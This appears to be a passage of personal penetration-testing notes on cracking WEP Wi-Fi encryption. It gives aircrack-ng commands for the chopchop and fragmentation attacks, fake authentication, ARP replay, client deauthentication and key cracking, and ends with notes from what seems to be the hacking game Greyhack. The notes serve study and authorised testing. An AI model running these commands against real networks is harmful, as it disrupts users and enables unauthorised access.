 4. Korek ChopChop
   - WEP cracking without client
   - Command: `aireplay-ng -4 -b <AP_MAC> -h <OUR_MAC> mon0`

5. Fragmentation Attack
   - WEP cracking without client
   - Command: `aireplay-ng -5 -b <AP_MAC> -h <OUR_MAC> mon0`

## WEP Testing Methodology

### With Client Present
1. Set monitor mode:
```bash
airmon-ng start wlan0 <channel>
```

2. Start packet capture:
```bash
airodump-ng -c <channel> --bssid <AP_MAC> -w <filename> mon0
```

3. Fake authentication:
```bash
aireplay-ng -1 0 -e <ESSID> -a <AP_MAC> -h <OUR_MAC> mon0
```

4. ARP replay attack:
```bash
aireplay-ng -3 -b <AP_MAC> -h <OUR_MAC> mon0
```

5. Optional: Deauth clients:
```bash
aireplay-ng -0 1 -a <AP_MAC> -c <CLIENT_MAC> mon0
```

6. Crack captured packets:
```bash
aircrack-ng -0 <capfile>
```

WEP on Greyhack

iwlist wlan0

7F:36:98:09:4C:41  23%  Montierr_7DUO  
1F:7B:30:BA:44:61  74%  Tory           
6D:99:94:54:6C:B5  71%  Sporth         
D1:C9:B7:80:B3:C2  53%  Cean           
3B:89:B8:40:59:AF  55%  Stonalo

airmon:

set monitor mode
`airmon start wlan0`

`aireplay -b 1F:7B:30:BA:44:61 -e Tory`

